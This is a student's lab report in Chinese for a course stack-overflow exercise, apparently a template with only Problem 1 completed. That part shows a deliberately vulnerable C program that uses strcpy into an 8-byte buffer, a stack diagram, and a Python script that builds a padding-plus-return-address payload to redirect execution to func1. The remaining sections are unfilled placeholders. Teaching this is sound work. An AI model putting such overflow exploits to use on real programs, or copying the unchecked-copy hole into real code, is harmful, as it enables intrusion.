

# 栈溢出攻击实验

姓名：邢添珵

学号：2024202862

## 题目解决思路


### Problem 1: 
- **分析**：

先看看这题对应的 `C` 代码：

```c
#include <stdio.h>
#include <stdlib.h>

void func(char *s) {
  char buffer[8];
  strcpy(buffer, s);
}

void func1() {
  puts("Yes!I like ICS!");
  exit(0);
}

int main(int argc, char *argv[]) {
    char buf[256];
    size_t len;
    FILE *fp;

    puts("Do you like ICS?");

    if (argc != 2) {
        fprintf(stderr, "Usage: %s <file>\n", argv[0]);
        return 1;
    }

    fp = fopen(argv[1], "r");
    if (fp == NULL) {
        perror("fopen");
        return 1;
    }

    len = fread(buf, 1, sizeof(buf), fp);
    if (len == 0) {
        perror("fread");
        fclose(fp);
        return 1;
    }

    buf[len] = '\0';
    fclose(fp);

    func(buf);

    puts("You don't like it! You fail!");
    return 0;
}
```

`func`在栈上开辟的`buffer`数组大小为`8`字节，但是`payload`最多可以有`256`字节，于是可以栈溢出攻击。

根据汇编代码画出栈区示意图：

```nasm
High
    +----------------------+
    |    return address    |  
    +----------------------+
    |      saved %rbp      |
    +----------------------+  <--- rbp
    |                      |
    |   buffer (8 bytes)   |  <--- rbp - 0x8
    +----------------------+
    |                      |
    |   local variables    |  <--- rbp - 0x18 
    |                      |
    +----------------------+  <--- rsp = rbp - 0x20
Low
```

于是得到攻击方案：构造`16`字节的`padding`，然后写入`func1`的地址作为新返回地址。这样函数执行后就可以跳转到`func1`并输出`Yes!I like ICS!`。

- **解决方案**：

代码如下：

``` python
padding = b"A" * 16                                 
func1_address = b"\x16\x12\x40\x00\x00\x00\x00\x00" # func1 地址
payload = padding + func1_address
with open("ans1.txt", "wb") as f:
    f.write(payload)
print("Payload written to ans1.txt")
```

- **结果**：




### Problem 2:
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 3: 
- **分析**：...
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

### Problem 4: 
- **分析**：体现canary的保护机制是什么
- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
- **结果**：附上图片

## 思考与总结


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确。
